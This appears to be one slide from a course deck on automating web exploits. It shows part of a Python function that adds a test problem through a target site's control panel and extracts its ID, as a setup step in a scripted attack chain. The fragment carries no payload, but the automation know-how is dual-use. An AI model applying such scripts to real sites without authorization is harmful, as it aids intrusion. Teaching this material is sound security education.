

Web (cont.)
Basic Web : Automating Web Exploits
Next, we add a problem (cont.)
def create_problem(target_url, s):
    ...
    if("The problem has been successfully added to the library" == res["description"]):
        print("[*] Created a test problem!")
        print("[*] Extracting the problem's ID..")

        res = s.get(target_url + "/controlpanel/problems", verify=False, proxies=PROXIES)
        res = res.text
        start_index = res.find(":problems=\"'") + 13
        end_index   = res.find("'", start_index)
        problems = res[start_index:end_index].replace("\\&quot;", "\"").strip()
        problems_json = json.loads(problems)
        for problem in problems_json:
            if(problem["name"] == problem_name):
                problem_id = problem["id"]
                print("[+] Found problem ID:", problem_id)
                return problem_id, problem_name
    else:
        print("[-] Couldn't create a test problem :(")
        sys.exit(-1)
30